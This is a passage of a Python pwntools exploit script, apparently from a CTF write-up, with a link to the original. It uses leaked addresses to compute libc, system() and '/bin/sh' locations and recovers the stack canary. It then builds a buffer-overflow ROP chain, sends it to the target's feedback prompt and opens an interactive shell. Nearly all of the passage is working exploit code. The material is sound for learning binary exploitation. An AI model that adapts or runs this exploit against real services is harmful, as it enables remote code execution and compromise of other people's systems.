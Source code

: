 ```  
leaked_libc = int(leak[0], 16)  
  
offset_to_libc = 0xdb970  
offset_to_system = 0x3f480  
offset_to_binsh = 0x161c19  
  
libc_addr = leaked_libc - offset_to_libc  
system_addr = libc_addr + offset_to_system  
binsh_addr = libc_addr + offset_to_binsh  
  
print "libc address: " + hex(libc_addr)  
print "system address: " + hex(system_addr)  
print "binsh address: " + hex(binsh_addr)  
  
canary = int(leak[1], 16)  
leaked_elf = int(leak[2], 16)  
elf_addr = leaked_elf - (leaked_elf & 0xfff)  
  
print "canary: " + hex(canary)  
print "elf address: " + hex(elf_addr)  
  
offset_pop_rdi = 0xd03  
pop_rdi = elf_addr + offset_pop_rdi  
  
payload += "A"*24 # Fill up the buffer  
payload += p64(canary) # Canary  
payload += "B"*8 # Overwrite saved RBP  
payload += p64(pop_rdi)  
payload += p64(binsh_addr)  
payload += p64(system_addr)  
payload += "\n"  
  
r.recvuntil("Enter the name of Rifle to get info:\n")  
r.send("AAAA\n")  
  
r.recvuntil("Would you like to give us some feedback:\n")  
r.send(payload)  
  
r.interactive()  
```

Original writeup (https://evertokki.tistory.com/261).